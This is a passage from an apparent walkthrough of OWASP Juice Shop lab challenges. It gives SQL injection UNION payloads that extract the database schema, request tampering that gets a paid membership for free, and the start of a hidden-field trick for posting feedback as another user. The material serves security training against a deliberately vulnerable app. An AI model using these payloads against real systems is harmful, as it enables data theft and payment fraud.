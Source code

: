     5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM sqlite_master--` *still fails* with `number of result columns` error
    6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--` finally gives you a JSON response back with an extra element `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.
10. Next you get rid of the unwanted product results changing the query into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--` leaving only the "`UNION`ed" element in the result set
11. The last step is to replace one of the fixed values with correct column name `sql`, which is why searching for `qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--` solves the challenge.

### **Obtain a Deluxe Membership without paying for it**

1. If wallet is empty: a. Go to [http://localhost:3000/#/payment/deluxe](http://localhost:3000/#/payment/deluxe) and look at the available payment options for upgrading to a deluxe account b. Open devtools and inspect the pay button next to the "pay using wallet" option. c. Remove the disabled="true" attribute from the element to enable it. d. Switch to the network tab and devtools and click on the button to initiate payment e. See that there is a POST request sent, which only contains one parameter in the request payload, "paymentMode", which is set to "wallet". The response contains an error saying your wallet doesn’t contain sufficient funds d. Right click on the request and select "edit and resend" e. Change the paymentMode parameter to an empty string and press send. This solves the challenge and juice-shop no longer knows where to deduct the money from
2. If wallet isn’t empty: a. If your wallet contains funds, you cannot start a dummy transaction to inspect the request structure because then you would be automatically upgraded to deluxe. b. Set up a proxy like ZAP, Fiddler aur Burp Suite. c. Click on the pay button d. Intercept and edit the request as described above before forwarding it.

### **Post some feedback in another user’s name**

1. Go to the *Contact Us* form on [http://localhost:3000/#/contact](http://localhost:3000/#/contact).
2. Inspect the DOM of the form in your browser to spot this suspicious text field right at the top: `<input _ngcontent-c23 hidden id="userId" type="text" class="ng-untouched ng-pristine ng-valid">`
    
    ![Hidden text field on Contact Us form](media/blog4/hidden_textfield.png)
    
3. In your browser’s developer tools remove the `hidden` attribute from above `<input>` tag.
    